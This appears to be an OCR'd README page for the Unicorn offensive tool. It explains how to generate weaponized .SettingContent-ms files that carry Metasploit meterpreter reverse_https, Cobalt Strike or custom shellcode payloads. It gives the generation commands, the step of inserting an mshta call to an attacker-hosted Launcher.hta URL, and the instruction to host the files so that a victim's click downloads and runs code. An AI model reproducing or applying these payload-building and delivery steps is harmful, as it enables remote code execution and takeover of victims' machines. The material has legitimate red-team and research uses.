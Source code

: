 The four methods below on usage: 

HTA SettingContent-ms Metasploit: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms
HTA Example SettingContent-ms: python unicorn.py <cobalt_strike_file.cs cs ms
HTA Example SettingContent-ms: python unicorn.py <patth_to_shellcode.txt>: shellcode ms
Generate .SettingContent-ms: python unicorn.py ms

The first is a Metasploit payload, the second a Cobalt Strike, the third your own shellcode, and the fourth
just a blank .SettingContent-ms file. 

When everything is generated, it will export a file called Standalone_NoASR.SettingContent-ms either in
the default root Unicorn directory (if using the standalone file generation) or under the hta_attack/
folder. You will need to edit the Standalone_NoASR.SettingContent-ms file and replace:

REPLACECOOLSTUFFHERE

With:

mshta http://<apache_server_ip_or_dns_name/Launcher.hta.

Then move the contents of the hta_attack to /var/www/html.

Once the victim either clicks the .SettingContent-ms file, mshta will be called on the victim machine
then download the Unicorn HTA file which has the code execution capabilites. 

Special thanks and kudos to Matt Nelson for the awesome research

Also check out: https://www.trustedsec.com/2018/06/weaponizing-settingcontent/

Usage: 

python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms
python unicorn.py <cobalt_strike_file.cs cs ms
python unicorn.py <patth_to_shellcode.txt>: shellcode ms
python unicorn.py ms

